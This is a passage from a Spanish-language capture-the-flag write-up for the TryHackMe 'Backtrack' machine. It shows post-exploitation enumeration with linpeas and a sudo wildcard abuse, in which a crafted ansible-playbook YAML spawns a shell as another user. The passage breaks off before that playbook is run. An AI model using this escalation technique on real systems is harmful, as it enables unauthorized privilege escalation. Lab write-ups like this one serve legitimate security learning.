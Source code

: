 Una vez dentro, buscamos el fichero flag1.txt y leemos su contenido:
```
tomcat@Backtrack:/$ find / -name flag1.txt 2>/dev/null
find / -name flag1.txt 2>/dev/null
/opt/tomcat/flag1.txt
tomcat@Backtrack:/$ cat /opt/tomcat/flag1.txt
cat /opt/tomcat/flag1.txt
THM{*********************}
tomcat@Backtrack:/$ 
```

Continuamos con la enumeración de la máquina, ya que debemos de comprometer a dos usuarios y realizar la escalada de privilegios a root.

Lanzamos la herramienta *linpeas.sh* y enumeramos un servicio web interno por el puerto 80 y un *MySQL* por el 3306, de momento continuamos con la enumeración, ya que no disponemos de credenciales para acceder a los servicios expuestos:
```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                               
tcp        0      0 127.0.0.1:80            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:6800            0.0.0.0:*               LISTEN      478/aria2c          
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::8080                 :::*                    LISTEN      572/java            
tcp6       0      0 :::6800                 :::*                    LISTEN      478/aria2c          
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::8888                 :::*                    LISTEN      493/node            
:8005          :::*                    LISTEN      572/java                             
```

También se identifica que podemos ejecutar **ansible-playbook** con el usuario *wilbur*.
```
User tomcat may run the following commands on Backtrack:
    (wilbur) NOPASSWD: /usr/bin/ansible-playbook /opt/test_playbooks/*.yml
```

Este tipo de escalada de privilegios nos pueden sonar de otras máquinas, también hay información en [Gtfobins](https://gtfobins.github.io/gtfobins/ansible-playbook/), pero no tenemos acceso a la ruta *"/opt/test_playbooks*", pero al llevar '*', esto nos permite hacer un path traversal para que ejecute un *.yml* malicioso y generado por nosotros.
```
tomcat@Backtrack:/dev/shm$ echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' > /dev/shm/m3.yml   
echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' > /dev/shm/m3.yml
tomcat@Backtrack:/dev/shm$ cat m3.yml
cat m3.yml
[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]
tomcat@Backtrack:/dev/shm$ 
tomcat@Backtrack:/dev/shm$ chmod 777 /dev/shm/m3.yml
chmod 777 /dev/shm/m3.yml

```

[WARNING]: provided hosts list is empty, only localhost is available. Note that